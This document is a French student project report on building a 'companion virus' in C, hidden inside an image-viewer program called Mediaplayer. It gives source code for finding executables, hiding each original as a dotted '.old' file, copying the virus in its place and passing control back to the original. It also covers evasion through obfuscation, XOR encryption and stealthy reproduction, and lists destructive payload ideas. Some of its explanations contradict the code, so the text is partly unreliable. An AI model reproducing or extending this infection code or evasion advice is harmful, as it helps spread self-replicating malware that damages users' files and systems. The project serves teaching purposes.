



# Rapport du projet sur la mise en place d'un virus compagnon
## Membres du groupe
- Saliou Bailo BAH
- Moussa SANGARE

# Sommaire
<!-- TOC -->
* [Rapport du projet sur la mise en place d'un virus compagnon](#rapport-du-projet-sur-la-mise-en-place-dun-virus-compagnon)
  * [Membres du groupe](#membres-du-groupe)
* [Sommaire](#sommaire)
  * [Introduction](#introduction)
  * [Parlons tout d'abord des mecanismes d'attaque , des enchainements et des fonctions à mettre en place pour le virus en général](#parlons-tout-dabord-des-mecanismes-dattaque--des-enchainements-et-des-fonctions-à-mettre-en-place-pour-le-virus-en-général)
  * [Détaillons plus amplement notre thème qui porte sur la mise en place d'un virus compagnon 🛡️ (`Mediaplayer-virus`)](#détaillons-plus-amplement-notre-thème-qui-porte-sur-la-mise-en-place-dun-virus-compagnon--mediaplayer-virus)
  * [Fonctionnement du virus compagnon 😈](#fonctionnement-du-virus-compagnon-)
  * [Développement du programme `Mediaplayer` 🎬](#développement-du-programme-mediaplayer-)
  * [Developpement du mechanisme d'infection du virus compagnon](#developpement-du-mechanisme-dinfection-du-virus-compagnon)
  * [Que se passe-t-il lors de l'exécution du programme `Mediaplayer` ?](#que-se-passe-t-il-lors-de-lexécution-du-programme-mediaplayer-)
  * [Améliorations du virus compagnon](#améliorations-du-virus-compagnon)
  * [Les différents utilitaires](#les-différents-utilitaires-)
<!-- TOC -->
## Introduction
L'objectif de ce projet est de mettre en place un virus compagnon. Ce virus compagnon sera implémenté dans un programme appelé `Mediaplayer`🎬 . Ce dernier joue le rôle de lecteur d'images. 

## Parlons tout d'abord des mecanismes d'attaque , des enchainements et des fonctions à mettre en place pour le virus en général

Les mécanismes d'attaque d'un virus informatique sont habilement orchestrés, visant à infiltrer un système cible avec subtilité et efficacité. 🔍 D'abord, le virus déploie ses outils de pénétration, exploitant astucieusement les vulnérabilités logicielles, les failles de sécurité réseau ou même les comportements des utilisateurs imprudents. Une fois à l'intérieur, il active son processus de reproduction, se multipliant dans des fichiers cibles ou des zones stratégiques du système pour assurer sa persistance et sa propagation. 🔄

La dissimulation constitue une phase critique pour échapper à la détection. Le virus se camoufle dans des médias ou des programmes existants, parfois altérant même son apparence pour se fondre parfaitement dans l'environnement hôte. Cette étape vise à retarder la découverte du virus par les outils de sécurité informatique, prolongeant ainsi sa durée de vie opérationnelle. 🕵️‍♂️

Enfin, le déclenchement de la nuisance représente souvent l'objectif ultime du virus. À un moment prédéterminé ou en réponse à des actions spécifiques de l'utilisateur, il peut déclencher diverses actions dommageables, telles que la suppression de fichiers critiques, le vol d'informations sensibles ou même le blocage complet du système, provoquant ainsi un chaos numérique. 💥

Ci-dessous , les fonctions à mettre en place pour le virus en général:
Fonction de Recherche 🔍 :

- La première étape consiste à identifier les fichiers cibles à infecter, tels que les fichiers exécutables (.exe, .com, etc.).
Il est essentiel de mettre en place des mécanismes pour éviter la surinfection et ainsi prévenir la corruption de fichiers déjà infectés.
Fonction de Reproduction 🔄 :

- La fonction de reproduction détermine comment le virus se multiplie dans le système cible, que ce soit par ajout, recouvrement ou par la création de cavités dans des fichiers cibles (.exe, etc.).
Il est primordial de contrôler la vitesse de reproduction pour éviter d'attirer l'attention et de préserver l'intégrité du programme hôte.
Fonction de Camouflage 🕵️‍♂️ :

- Le camouflage vise à dissimuler la présence du virus en évitant de modifier la taille du programme hôte et en préservant ses fonctions normales.
Il est crucial de ne pas altérer les dates de mises à jour ou de perturber le fonctionnement régulier du programme pour éviter la détection.
- Fonction de Destruction 💣 :
La fonction de destruction déclenche la nuisance à des moments prédéterminés ou en réponse à des déclencheurs spécifiques, comme une date programmée ou une combinaison de touches.
Les conséquences de la nuisance peuvent varier, allant du simple ralentissement du système au formatage du disque ou au chiffrement des fichiers.

Chaque fonction doit être soigneusement implémentée pour maximiser l'efficacité du virus tout en minimisant les risques de détection.

## Détaillons plus amplement notre thème qui porte sur la mise en place d'un virus compagnon 🛡️ (`Mediaplayer-virus`)

Les différentes étapes de la mise en place d'un virus compagnon sont les suivantes :

- Tout d'abord, il est essentiel de développer un programme appelé `mediaplayer` 🎬 qui agit comme un lecteur d'images. Ce programme doit avoir la capacité de lire les fichiers images et de les afficher à l'écran de manière fluide et conviviale.

- Ensuite, vient la création du virus compagnon. Ce dernier fonctionne en arrière-plan et a pour mission de copier les fichiers exécutables présents dans le répertoire courant de l'utilisateur vers un répertoire caché, tout en restant discret et indétectable.

- Lorsque le `mediaplayer` est exécuté, il agit en premier plan en assurant ses fonctions habituelles telles que l'affichage et le parcours des images. Cependant, en coulisses, il effectue les actions suivantes :

   - 🕵️‍♂️ Recherche des fichiers exécutables dans le répertoire courant de l'utilisateur.
   - 🔄 Renommage des fichiers exécutables en ajoutant l'extension `.old` et en les cachant en ajoutant un point `.` devant leur nom.
   - 📂 Copie secrète de son code dans un fichier ayant le même nom que le fichier renommé, tout en maintenant une apparence de normalité pour tromper l'utilisateur.
   - 🔄 Capacité de transférer l'exécution au programme caché, tout en simulant le bon fonctionnement de l'exécutable initial afin de dissimuler ses actions malveillantes.

En mettant en œuvre ces étapes, le virus compagnon peut se propager discrètement à travers les fichiers exécutables présents sur le système, tout en assurant sa propre survie et en trompant l'utilisateur sur ses intentions malveillantes. 🦠

## Fonctionnement du virus compagnon 😈
Le virus compagnon est un programme qui s'exécute en arrière-plan. Il a pour rôle de copier les fichiers images de l'utilisateur dans un répertoire caché.
ci-joint une capture d'écran du répertoire caché créé par le virus compagnon et un éxecutable du virus compagnon:


*Que voit-on sur cette capture d'écran ?*

Un executable caché `.CalculatriceBasique.old` qui est le vrai programme mais dû à l'infection du virus compagnon ,par primo-infection , il a été renommé en `.CalculatriceBasique.old` et un autre executable `CalculatriceBasique` qui est le virus compagnon.

## Développement du programme `Mediaplayer` 🎬
Pour l'implementation du programme `Mediaplayer`, nous avons utilisé le langage de programmation C et la GTK pour l'interface graphique. Le programme permet de charger des images et de les afficher à l'écran. Il offre également des fonctionnalités de zoom, de rotation et de parcours des images.
ci-joint une capture d'écran du programme `Mediaplayer` en action:


## Developpement du mechanisme d'infection du virus compagnon
Tout d'abord, cherchons à tester l'affichage des cibles de notre virus compagnon. Pour cela, nous allons écrire une fonction qui va lister les fichiers exécutables présents dans le répertoire courant de l'utilisateur. Cette fonction sera appelée au démarrage du programme `Mediaplayer` pour afficher les cibles potentielles du virus compagnon.

```c
void affichage_fichier_cible() {
    DIR *d;
    struct dirent *dir;
    d = opendir(".");
    if (d) {
        while ((dir = readdir(d)) != NULL) {
            struct stat sb;
            if (strcmp(dir->d_name, "mediaplayer.exe") != 0 && strcmp(dir->d_name, ".") != 0 && strcmp(dir->d_name, "..") != 0) {
                stat(dir->d_name, &sb);
                if (sb.st_mode & S_IXUSR && S_ISREG(sb.st_mode)) {
                    printf("%s\n", dir->d_name);
                }
            }
        }
        closedir(d);
    }
}
```
Detaillons pas à pas le code ci-dessus:
1. **Ouverture du répertoire courant :**
   - La fonction `opendir()` est utilisée pour ouvrir le répertoire courant, et le descripteur de fichier correspondant est stocké dans la variable `d`.

2. **Parcours des fichiers :**
   - Une boucle `while` est utilisée pour parcourir tous les fichiers du répertoire.
   - À chaque itération de la boucle, la fonction `readdir()` est utilisée pour lire un fichier du répertoire. Les détails du fichier sont stockés dans la structure `dirent` pointée par `dir`.

3. **Vérification du nom de fichier :**
   - À l'intérieur de la boucle, le nom du fichier actuel est comparé avec trois noms spécifiques : "mediaplayer.exe", ".", et "..".
   - Si le nom du fichier n'est pas égal à l'un de ces noms spécifiques, le programme passe à l'étape suivante.

4. **Récupération des informations sur le fichier :**
   - La fonction `stat()` est utilisée pour obtenir des informations détaillées sur le fichier, telles que ses permissions et son type.
   - Les informations sont stockées dans la structure `stat` pointée par `sb`.

5. **Vérification des permissions et du type de fichier :**
   - Les permissions du fichier sont vérifiées pour déterminer s'il s'agit d'un fichier exécutable, en utilisant les macros `S_IXUSR` et `S_ISREG()` pour vérifier les permissions et le type de fichier respectivement.

6. **Affichage du nom du fichier :**
   - Si le fichier est un fichier exécutable, son nom est affiché à l'aide de la fonction `printf()`.

7. **Fermeture du répertoire :**
   - Une fois tous les fichiers du répertoire parcourus, la fonction `closedir()` est utilisée pour fermer le descripteur de fichier du répertoire.

Avec cette fonction, nous réalisons la première étape de notre virus qui est la fonction de recherche des fichiers cibles. Dans le cadre de la réalisation , pour eviter la surinfection , on a implementé une fonction qui permet de verifier si un fichier est deja infecté ou non.

```c
int fichier_old_existe(char *fichier) {
    char *first_check = malloc(strlen(fichier) + 15);
    strcpy(first_check, ".");
    strcat(first_check, fichier);
    strcat(first_check, ".old");

    DIR *d;
    struct dirent *dir;
    d = opendir(".");
    if (d) {
        while ((dir = readdir(d)) != NULL) {
            if (strcmp(dir->d_name, "mediaplayer.exe") != 0) {
                if (strcmp(dir->d_name, first_check) == 0 && strstr(dir->d_name, ".old") != NULL) {
                    if (fopen(first_check, "r") != NULL) {
                        closedir(d);
                        return 1;
                    }
                }
            }
        }
        closedir(d);
    }
    return -1;
}
```
Detaillons pas à pas le code ci-dessus:

1. **Allocation de mémoire et construction du nom de fichier ".old" :**
   - La fonction `malloc()` est utilisée pour allouer de la mémoire dynamique afin de stocker le nom du fichier avec l'extension ".old".
   - Le nom de fichier original est concaténé avec un point "." et l'extension ".old" pour former le nom complet du fichier à vérifier.

2. **Ouverture du répertoire courant :**
   - La fonction `opendir()` est utilisée pour ouvrir le répertoire courant, et le descripteur de fichier correspondant est stocké dans la variable `d`.

3. **Parcours des fichiers :**
   - Une boucle `while` est utilisée pour parcourir tous les fichiers du répertoire.
   - À chaque itération de la boucle, la fonction `readdir()` est utilisée pour lire un fichier du répertoire. Les détails du fichier sont stockés dans la structure `dirent` pointée par `dir`.

4. **Vérification de l'existence du fichier ".old" :**
   - Le nom du fichier actuel est comparé avec le nom construit précédemment pour vérifier s'il correspond à un fichier avec l'extension ".old".
   - Si un tel fichier est trouvé et qu'il s'agit d'un fichier régulier (non un répertoire), la fonction vérifie s'il peut être ouvert en lecture avec `fopen()`.
   - Si l'ouverture réussit, cela signifie que le fichier ".old" existe, et la fonction retourne 1.

5. **Fermeture du répertoire :**
   - Une fois tous les fichiers du répertoire parcourus, la fonction `closedir()` est utilisée pour fermer le descripteur de fichier du répertoire.

6. **Retour du résultat :**
   - Si aucun fichier ".old" correspondant n'est trouvé, la fonction retourne -1 pour indiquer que le fichier n'existe pas.

Maintenant que nous avons toutes les fonctions nécessaires pour rechercher les fichiers cibles et vérifier s'ils sont déjà infectés, nous pouvons passer à l'étape suivante : la fonction de reproduction (ou d'infection) du virus compagnon.

```c
void infect() {
    DIR *d;
    struct dirent *dir;
    d = opendir(".");
    if (d) {
        while ((dir = readdir(d)) != NULL) {
            struct stat sb;
            if (strcmp(dir->d_name, "mediaplayer.exe") != 0 && strcmp(dir->d_name, ".") != 0 && strcmp(dir->d_name, "..") != 0 && strstr(dir->d_name, ".old") == NULL) {
                if (!stat(dir->d_name, &sb)) {
                    if ((sb.st_mode & S_IXUSR) && S_ISREG(sb.st_mode)) {
                        printf("Infection en cours...\n");
                        printf("%s\n", dir->d_name);
                        char *fichier = (char *)dir->d_name;
                        if (fichier_old_existe(fichier) == -1) {
                            renommer_fichier(fichier);
                            copier_virus(fichier);
                        } else {
                            printf("Fichier %s deja cible\n", fichier);
                        }
                    }
                }
            }
        }
        closedir(d);
    }
}
```

Detaillons pas à pas le code ci-dessus:
1. **Ouverture du répertoire courant :**
   - La fonction `opendir()` est utilisée pour ouvrir le répertoire courant, et le descripteur de fichier correspondant est stocké dans la variable `d`.

2. **Parcours des fichiers :**
   - Une boucle `while` est utilisée pour parcourir tous les fichiers du répertoire.
   - À chaque itération de la boucle, la fonction `readdir()` est utilisée pour lire un fichier du répertoire. Les détails du fichier sont stockés dans la structure `dirent` pointée par `dir`.

3. **Vérification du nom de fichier et des permissions :**
   - Le nom du fichier est comparé avec trois noms spécifiques : "mediaplayer.exe", ".", et "..", afin de les exclure de l'infection.
   - De plus, le fichier est vérifié pour s'assurer qu'il n'a pas l'extension ".old", ce qui indique qu'il a déjà été infecté auparavant.
   - Les permissions du fichier sont également vérifiées pour s'assurer qu'il s'agit d'un fichier exécutable.

4. **Détection et traitement des fichiers à infecter :**
   - Si le fichier satisfait toutes les conditions précédentes, cela signifie qu'il est éligible à l'infection.
   - La fonction `fichier_old_existe()` est appelée pour vérifier si un fichier ".old" existe déjà pour le fichier en cours de traitement.
   - Si le fichier ".old" n'existe pas, le fichier est renommé avec l'extension ".old" à l'aide de la fonction `renommer_fichier()` et une copie du virus est effectuée dans le répertoire avec le même nom de fichier à l'aide de la fonction `copier_virus()`.
    - la fonction `copier_virus()` est une fonction qui permet de copier le virus compagnon dans un fichier avec le même nom et lui donner le droit d'execution.

   - Si le fichier ".old" existe déjà, cela signifie qu'il a déjà été infecté précédemment, et un message est affiché pour indiquer que le fichier est déjà ciblé.

5. **Fermeture du répertoire :**
   - Une fois tous les fichiers du répertoire parcourus, la fonction `closedir()` est utilisée pour fermer le descripteur de fichier du répertoire.

Après avoir implémenté tous ces mécanismes , nous devons maintenant permettre au virus compagnon de passer le controle à l'executable infecté. Pour cela , nous usons de la variable `argv` qui est un tableau de chaines de caractères qui contient les arguments passés à un programme lors de son exécution. Nous allons donc modifier le programme `Mediaplayer` pour qu'il puisse executer l'executable infecté. Si c'est le cas de l'executable infecté , nous effectuons l'execution du vrai programme tout en infectant les autres fichiers executables du repertoire courant.

```c
if(strcmp(argv[0], "mediaplayer.exe") == 0) {
    infect();
    printf("Execution du programme\n");

    // Execution du programme
}
else{
    DIR *d;
        struct dirent *dir;
        d = opendir(".");
        if (d) {
            while ((dir = readdir(d)) != NULL) {
                if (strcmp(dir->d_name, "mediaplayer.exe") != 0 && strcmp(dir->d_name, ".") != 0 && strcmp(dir->d_name, "..") != 0) {
                    struct stat sb;
                    stat(dir->d_name, &sb);
                    if (sb.st_mode & S_IXUSR && S_ISREG(sb.st_mode)) {
                        char *name_file = malloc(strlen(argv[0]) + 10);
                        strncpy(name_file, argv[0] + 2, strlen(argv[0]) - 2);
                        char *verif_name = malloc(strlen(name_file) + 5);
                        strcpy(verif_name, ".");
                        strcat(verif_name, name_file);
                        strcat(verif_name, ".old");

                        if (strcmp(dir->d_name, verif_name) == 0) {
                            printf("Fichier %s deja cible\n", dir->d_name);

                            strcpy(verif_name, "./");
                            strcat(verif_name, ".");
                            strcat(verif_name, name_file);
                            strcat(verif_name, ".old");

                            printf("command %s\n", verif_name);
                            execl(verif_name, NULL);
                        }
                    }
                }
            }
            closedir(d);
        }
    }
```
Que fait ce code ?

Ce code en langage C 🐱‍💻 est une section conditionnelle qui vérifie le nom du programme exécuté (`argv[0]`) pour déterminer s'il s'agit de "mediaplayer.exe". Voici une explication détaillée :

1. **Vérification du nom du programme :**
   - La condition `strcmp(argv[0], "mediaplayer.exe") == 0` compare le premier argument de la ligne de commande (`argv[0]`) avec la chaîne "mediaplayer.exe".
   - Si le nom du programme exécuté est "mediaplayer.exe", cela signifie que le programme en cours d'exécution est le lecteur de média.

2. **Exécution de l'infection :**
   - Si le nom du programme correspond à "mediaplayer.exe", la fonction `infect()` est appelée pour infecter les fichiers exécutables du répertoire courant avec le virus compagnon.
   - Ensuite, un message "Execution du programme" est affiché pour indiquer que le programme est en cours d'exécution.

3. **Gestion des fichiers déjà infectés :**
   - Si le nom du programme n'est pas "mediaplayer.exe", cela signifie qu'un autre programme est en cours d'exécution.
   - Dans ce cas, le code parcourt les fichiers du répertoire courant pour vérifier s'il existe un fichier ".old" associé au programme. S'il existe, cela signifie que le programme a déjà été infecté.
   - Dans ce scénario, le code construit le chemin complet vers le fichier ".old" et utilise la fonction `execl()` pour exécuter le programme infecté, en passant le nom du fichier ".old" comme argument.
   - L'idée ici est de simuler le comportement habituel du programme infecté, car le fichier ".old" contient la version infectée du programme.

En résumé, ce code gère l'infection des fichiers exécutables lorsque le programme en cours d'exécution est "mediaplayer.exe", et il gère également la redirection vers le programme infecté si celui-ci a déjà été infecté auparavant. 🦠🕵️‍♂️

## Que se passe-t-il lors de l'exécution du programme `Mediaplayer` ?
- le lecteur s'affiche et fonctionne normalement, permettant à l'utilisateur de charger et de parcourir des images.
- En arrière-plan, le virus compagnon recherche les fichiers exécutables dans le répertoire courant et les infecte en les renommant et en les copiant dans un répertoire caché.
- Avec un `ls` simple dans le répertoire courant, l'utilisateur ne verra que les fichiers originaux, tandis que le virus compagnon se propage discrètement.



- Alors qu'avec un `ls -a` , l'utilisateur peut voir les fichiers infectés et cachés par le virus compagnon.


- Nous observons que le virus compagnon a infecté le fichier `CalculatriceBasique` en le renommant en `.CalculatriceBasique.old` et en créant un fichier `CalculatriceBasique` qui est le virus compagnon.

## Améliorations du virus compagnon
Pour améliorer le virus compagnon de façon à le rendre plus furtif et plus efficace, nous avons envisagé :
- **Obfuscation du code :** Le code du virus compagnon peut être obscurci pour rendre sa détection plus difficile. Cela inclut l'utilisation de techniques d'obfuscation telles que le renommage des variables, la division du code en fragments, l'ajout de fausses instructions, etc.

Pour bien montrer l'obfuscation sur notre code , voici ci-dessous la nouvelle version de la fonction `renommage_fichier` :

```c
void rImg(const char *i)
{
    char *n = malloc(strlen(i) + 15);strcpy(n, ".");strcat(n, i);cc(n, sfx);pR(i, n);free(n);
}
```

Nous remarquons que le code est plus difficile à lire et à comprendre, ce qui rend la tâche de détection plus complexe pour les outils de sécurité informatique.

- **Encryption et Décryptage :** Le virus compagnon peut utiliser des techniques de cryptage pour masquer son code et ses actions. Il peut chiffrer ses instructions et les décrypter au moment de l'exécution pour éviter la détection.

Pour celui ci , nous avons pu chiffrer le code du virus compagnon avec le XOR , 
mais il nous manque la partie de décryptage du code chiffré. Cette raison est due au fait que nous avons peut-être pas compris assez bien la technique mais nous continuons à travailler dessus.


## Les différents utilitaires
- **Calculatrice Basique** : une calculatrice simple qui permet d'effectuer des opérations mathématiques de base (addition, soustraction, multiplication, division).
- **Calcul Moyenne** : un programme qui calcule la moyenne d'un ensemble de nombres fournis par l'utilisateur.
- **Calcul PGCD** : un programme qui calcule le Plus Grand Commun Diviseur (PGCD) de deux nombres fournis par l'utilisateur.
- **Calcul Pourcentage** : un programme qui calcule un pourcentage d'un nombre donné par l'utilisateur.
- **Convertisseur Unité** : un programme qui convertit une unité de mesure en une autre.


